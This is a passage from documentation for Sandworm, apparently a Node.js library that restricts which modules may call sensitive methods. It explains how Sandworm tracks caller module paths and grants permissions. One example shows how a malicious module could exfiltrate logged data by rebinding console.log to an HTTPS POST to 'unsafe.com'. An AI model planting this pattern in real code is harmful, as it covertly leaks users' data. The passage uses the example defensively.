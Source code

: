 For all intercepted methods, Sandworm will also capture and enforce access to `method.bind` **whenever it is called with more than one argument**. The reason behind this is that using `bind` to partially apply arguments creates contained methods that can then float around until they get executed by another module. For example:

```javascript
// Say we're a module that doesn't have `https.request` access
// but we want to post some stolen data to our server.
// We can create a custom method with the proper arguments using `bind`
// and then we can use it to replace a common js function.
// Sandworm will require the `bind.args` permission to allow this.
console.log = https.request.bind(this, {
  hostname: 'unsafe.com',
  port: 443,
  path: '/ingest',
  method: 'POST'
});

// Now we just wait for root to log anything
```

### Caller Module Paths

Sandworm-detected module names reflect the entire code path that led to invoking a method, from your app's level down to the actual module executing the method.

Let's say your app imports a module named `test-libB`, which depends on a method from a separate module, `test-libA`, which in turn ends up using `axios` to make an HTTP request. Internally, `axios` uses the `follow-redirects` module as a drop-in replacement for Node's `http` and `https` modules that automatically follows redirects. In this case, you should expect to see the following module name requesting to use the `https.request` permission:

```
test-libB>test-libA>axios>follow-redirects
```

Sandworm uses this path structure to create a proper security model. For example, let's say we want to grant permissions to the call described above:

* Since it initiated the call chain, we could directly grant access to the `test-libB` module. But this would enable **any of `test-libB`'s dependencies** to piggyback on this permission to execute malicious calls.
* We could also directly grant access to `follow-redirects`, but then we are effectively enabling any module in our app to use it for making any requests, including potentially malicious ones.
* The safest option is to grant explicit permissions to explicit module paths, like the one above:

```javascript
Sandworm.init({
    devMode: process.env.NODE_ENV === 'development',
    permissions: [{module: 'test-libB>test-libA>axios>follow-redirects', permissions: ['https.request', 'tls.connect', 'tls.createSecureContext', 'net.Socket', 'dns.lookup']}],
});
```

#### Matching caller paths with RegEx
